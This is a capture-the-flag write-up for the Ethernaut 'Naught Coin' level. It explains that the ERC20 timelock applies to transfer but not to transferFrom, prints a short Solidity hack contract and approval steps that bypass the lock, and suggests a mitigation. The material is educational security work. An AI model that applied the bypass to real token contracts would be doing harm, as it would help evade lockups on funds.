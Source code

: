 ```yaml
---
title: Level 14 - Naught Coin
slug: level-15
published: 05-23-2023
lastEdited:
---
```


## Objectives

1. Empty all of your funds of an ERC20 token.

## Vulnerabilities

### Function modifier applied to transfer only

This contract adds a timelock on the `transfer` function preventing you to transfer tokens within 10 years
of the contract creation. On the other hand, the `transferFrom` function does not have the timelock implemented.

## Exploit

1. Write and deploy this simple hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./NaughtCoin.sol";

contract NaughtCoinHack {

    NaughtCoin target;

    constructor(address _targetAddress) {
        target = NaughtCoin(_targetAddress);
    }

    function hack() external {
        bool success = target.transferFrom(0xcC5065Fa8f55F6929E1fA52E1ee6911F12C54a7F, address(this), 1000000000000000000000000);
        require(success, "Transaction failed!");
    }
}
```

2. Approve your total balance as allowance for the above contract's address. (I used the Remix interface).

3. Call the `hack` function which will transfer out all of your funds.

## Suggested mitigation

1. Override the `transferFrom` function with the timelock modifier.

## Further reading

- Open Zeppelin's ERC20 implementation <ExternalLink href={"https://github.com/OpenZeppelin/openzeppelin-contracts/blob/9b3710465583284b8c4c5d2245749246bb2e0094/contracts/token/ERC20/ERC20.sol"} />
